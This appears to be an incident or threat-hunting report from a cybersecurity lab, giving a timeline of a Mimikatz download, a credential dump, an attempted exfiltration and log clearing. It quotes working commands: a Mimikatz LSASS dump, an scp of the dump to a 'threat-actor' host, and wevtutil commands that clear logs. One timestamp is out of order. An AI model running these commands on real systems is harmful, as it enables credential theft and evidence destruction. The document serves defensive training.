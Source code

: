 <img width="1001" alt="CleanShot 2025-03-02 at 13 43 07@2x" src="https://github.com/user-attachments/assets/364849ef-2fdf-4206-a8bc-7433b2c08145" />

---

## Chronological Events

### 1. File Download - Mimikatz Installer
- **Timestamp:** `2025-03-01T22:37:51.0340907Z`
- **Event:** The user "cmh-cyber" downloaded a file named "mimikatz-master.zip" to the Downloads folder.
- **Action:** File download detected.
- **File Path:** `C:\Users\cmh-cyber\Downloads\mimikatz-master.zip`
  
### 2. File Creation - Mimikatz Executable Extraction and Rename
- **Timestamp:**
  - `2025-03-02T00:30:51.3210787Z` - `Mimikatz` extracted.
  - `2025-03-02T00:31:13.4321249Z` - `mimikatz.exe` renamed to `mimi64.exe`
- **Event:** The user "cmh-cyber" extracted a file named "mimikatz-master.zip" to `C:\Users\cmh-cyber\AppData\Local\Temp`, and the executable mimikatz.exe was renamed to mimi64.exe.
- **Action:** File creation detected.
- **File Path:** `C:\Users\cmh-cyber\AppData\Local\Temp\mimikatz\x64\mimi64.exe`
  
### 3. Process Execution - Mimikatz Execution
- **Timestamp:** `2025-02-27T18:00:34.050118Z`
- **Event:** The user "cmh-cyber" ran the "mimi64.exe" executable successfully, and dumped credentials from LSASS into a file named "creddump.txt"
- **Action:** Process execution detected.
- **Command:** `mimi64.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > C:\Users\<User>\AppData\Local\Temp\creddump.txt`
- **File Path:** `C:\Users\cmh-cyber\AppData\Local\Temp\creddump.txt`
  
### 4. Data Exfiltration - Secure Copy to Remote Host
- **Timestamp:** `2025-03-02T01:43:25.6836023Z`
- **Event:** The user "cmh-cyber" attempted to secure copy the file "creddump.txt" to a remote host located at "192.168.0.1", but the connection is determined to have failed.
- **Action:** Connection failed.
- **Command:** `scp C:\Users\cmh-cyber\AppData\Local\Temp\creddump.txt threat-actor@192.168.0.1:/home/threat-actor`

### 5. Anti-Forensics - Removal of Logs
- **Timestamps:**
  - `2025-03-02T01:44:28.1926195Z` - `ConsoleHost_history.txt` removed.
  - `2025-03-02T01:44:39.019939Z` - `Application` log cleared.
  - `2025-03-02T01:44:47.4380341Z` - `Security` log cleared.
  - `2025-03-02T01:44:55.9288889Z` - `System` log created.
- **Event:** The user "cmh-cyber" performed anti-forensic activities by clearing logs through a sequence of "wevtutil cl ..." commands and the removal of "ConsoleHost_history.txt".
- **Action:** Log and console history deletion detected.
- **Commands:**
  - `wevtutil cl Application`
  - `wevtutil cl Security`
  - `wevtutil cl System`

---